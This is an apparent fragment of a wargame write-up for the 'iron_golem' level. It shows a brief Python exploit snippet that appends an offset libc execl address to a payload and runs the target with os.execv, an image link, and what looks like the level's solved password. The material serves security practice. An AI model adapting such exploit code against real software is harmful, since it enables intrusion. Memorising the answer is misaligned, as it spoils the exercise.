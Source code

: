 ```python
payload += p32(execl + 0x3)

os.execv(target, (target, payload[:-1]))
```

<img src="http://eliez3r.synology.me/assets/blog/writeup/fc3/1.iron_golem/image-20180807141835619.png" width="600px">



**iron_golem / blood on the fedora**